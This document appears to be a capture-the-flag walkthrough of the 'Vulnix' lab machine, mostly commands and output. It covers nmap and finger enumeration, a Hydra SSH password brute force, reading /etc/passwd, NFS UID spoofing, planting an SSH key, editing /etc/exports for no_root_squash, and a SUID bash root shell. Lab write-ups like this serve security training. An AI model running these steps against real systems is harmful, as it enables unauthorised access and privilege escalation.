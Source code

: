### VULNIX


#NMAP

kali@kali:~$ nmap 192.168.1.100 -sV -sT -A
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-10 13:44 CET
Nmap scan report for vulnix.home (192.168.1.100)
Host is up (0.00055s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=vulnix
| Not valid before: 2012-09-02T17:40:12
|_Not valid after:  2022-08-31T17:40:12
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
79/tcp   open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3       Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL STLS TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; 0s from scanner time.
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3          111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      53683/udp  mountd
|   100005  1,2,3      59616/tcp  mountd
|   100021  1,3,4      36103/udp  nlockmgr
|   100021  1,3,4      45994/tcp  nlockmgr
|   100024  1          36141/udp  status
|   100024  1          53348/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap       Dovecot imapd
|_imap-capabilities: OK LOGINDISABLEDA0001 ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities STARTTLS LITERAL+ listed ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
512/tcp  open  exec?
513/tcp  open  login      OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: OK ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities listed LITERAL+ AUTH=PLAINA0001 ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
995/tcp  open  ssl/pop3   Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL(PLAIN) USER TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel


#FINGER

kali@kali:~$ finger root@192.168.1.100
Login: root           			Name: root
Directory: /root                    	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

kali@kali:~$ finger vulnix@192.168.1.100
Login: vulnix         			Name: 
Directory: /home/vulnix             	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

root@kali:/home# finger user@192.168.1.100
Login: user           			Name: user
Directory: /home/user               	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

Login: dovenull       			Name: Dovecot login user
Directory: /nonexistent             	Shell: /bin/false
Never logged in.
No mail.
No Plan.


#NFS

root@kali:/home/kali# showmount -e 192.168.1.100
Export list for 192.168.1.100:
/home/vulnix *

root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix

Permission denied T.T'


#BRUTEFORCE

kali@kali:~$ hydra -l user -P rockyou.txt 192.168.1.100 ssh -t 4
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2018-03-10 15:38:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.1.100:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active
[STATUS] 60.67 tries/min, 182 tries in 00:03h, 14344217 to do in 3940:44h, 4 active
[STATUS] 60.57 tries/min, 424 tries in 00:07h, 14343975 to do in 3946:51h, 4 active
[22][ssh] host: 192.168.1.100   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-03-10 15:47:27

kali@kali:~$ root -l user 192.168.1.100
user@vulnix:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)

user@vulnix:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
vulnix:x:2008:2008::/home/vulnix:/bin/bash


#ACCESS TO NFS

root@kali:/home/kali# groupadd vulnix -g 2008
root@kali:/home/kali# useradd vulnix -u 2008 -g 2008 -s /bin/bash
root@kali:/home/kali# mkdir /home/vulnix
root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix
root@kali:/home/kali# su vulnix
vulnix@kali:/home/kali$ cd /home/vulnix
vulnix@kali:~$ ll
total 20
drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 ./
drwxr-xr-x 4 root   root   4096 Mar 10 16:04 ../
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3486 Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile


#GETTING SSH WITH VULNIX

kali@kali:~$ ssh-keygen -t rsa
kali@kali:~$ cat .ssh/id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali

kali@kali:~$ su vulnix
vulnix@kali:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali" >> authorized_keys

kali@kali:~$ ssh -l vulnix 192.168.1.100


#PRIVILEGE ELEVATION

vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

vulnix@vulnix:~$ sudoedit /etc/exports
/home/vulnix    *(rw,root_squash)
/root   *(rw,no_root_squash) <- ADDED

Reboot!

root@kali:/home/kali# showmount -e 192.168.1.100
Export list for 192.168.1.100:
/root        *
/home/vulnix *

root@kali:/mnt# mount 192.168.1.100:/root /mnt/root
root@kali:/mnt# cd /mnt/root
root@kali:/mnt/root# ls -lrth
total 4.0K
-r-------- 1 root root 33 Sep  2  2012 trophy.txt
root@kali:/mnt/root# cat trophy.txt 
cc614640424f5bd60ce5d5264899c3be


#GETTING ROOT SHELL

vulnix@vulnix:~$ sudoedit /etc/exports
/home/vulnix    *(rw,no_root_squash) <- MODIFIED
/root   *(rw,no_root_squash)

Reboot!

vulnix@vulnix:~$ cp /bin/bash /home/vulnix

root@kali:/mnt/vulnix# chmod 4777 bash 
root@kali:/mnt/vulnix# ls -lrth
total 900K
-rwsrwxrwx 1 root root 900K Mar 10 16:47 bash

vulnix@vulnix:~$ ./bash -p
bash-4.2# id
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)

